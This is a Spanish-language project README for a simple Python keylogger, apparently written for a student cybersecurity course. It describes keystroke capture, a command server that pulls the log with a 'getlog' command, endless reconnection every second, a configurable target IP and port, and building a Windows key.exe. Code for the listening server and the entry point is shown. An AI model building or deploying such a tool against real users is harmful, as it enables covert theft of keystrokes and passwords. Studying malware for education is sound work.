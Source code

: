 # Keylogger simple

----

Este es un pequeño keylogger simple hecho en python para mi asignatura de ciberseguridad en DAM2.

El keylogger contiene dos hilos, el primero se encarga de gestionar el tema del teclado, mientras que el segundo permite al kelogger conectarse contra un servidor, este podra lanzar comandos al keylogger para que le envie el .log(las teclas pulsadas). 

Este codigo no tiene ningun fin mas que educativo y ser una muestra del funcionamiento de este tipo de malware.

----

## instalacion de dependencias

para instalar las dependencias deberemos ejecutar lo siguiente:
```
pip install -r requirements.txt
```

----

### Descripcion del proyecto

El proyecto contiene dos scripts, `main.py` es el keylogger como tal, el segundo
script, `tools.py` es una pequeña utilidad que hice para leer el archivo de
log de forma correcta. Tambien tiene una segunda opcion que permite abrir un
servicio multihilo en local:
```python
def create_server():
    global _all_threads
    s = socket()
    s.bind(("0.0.0.0", 8888))
    s.listen(10)

    print("Servidor escuchando en 0.0.0.0:8888")
    conn, addr = s.accept()
    print(f"Conexion desde {addr}")
    t = Thread(target=handle_client, args=(conn, addr), daemon=True)
    t.start()
    _all_threads.append(t)
    try: t.join()
    except Exception as e:
        print("Error en el hilo:", e)
    return t
```

puede configurar el puerto cambiando el `8888` por el que quiera.
Este pequeño servidor sirve para que el keylogger se conecte y envie el log,
el servidor puede enviar un comando `getlog` solicitando el log, y el cliente
(keylogger) enviara un buffer dinamico que sera el log con las teclas.
En caso de que el servidor se cierre, el keylogger seguira funcionando de fondo,
podra reabrir otro servidor y el keylogger reintentara la conexion de forma
indefinida en intervalos de 1s.

Puede configurar el keylogger para que se conecte a la IP que usted quiera:
```python
if __name__ == "__main__":
    try:
        keys = Keylogger(
            "127.0.0.1", 8888)
        keys.thread_kewyboard.start()
        keys.thread_client.start()
        keys.thread_kewyboard.join()
    except KeyboardInterrupt:
        pass
    print_debug("Hilo keyboard listener terminado")
    exit(0)
```
Debera cambiar `127.0.0.1` y `8888` por la IP y puerto que quiera usar, como 
es para fines de demostracion las pruebas se realizaron en local.

El keylogger se puede finalizar usando la tecla escape(``esc``) y podra decirle
al keylogger que guarde el log al pulsar la tecla `f1`.

El keylogger esta configurado para que cada 4 pulsaciones de teclas, se auto-almacene
todo en el archivo log, pero puede cambiar esto en la variable `counter_keywords`.

----

## Generar ejecutable

Una vez instalada las dependencias, ejecutamos el archivo `build.bat` via
`cmd` o doble click, y deberia generar un ejecutable `key.exe`

----
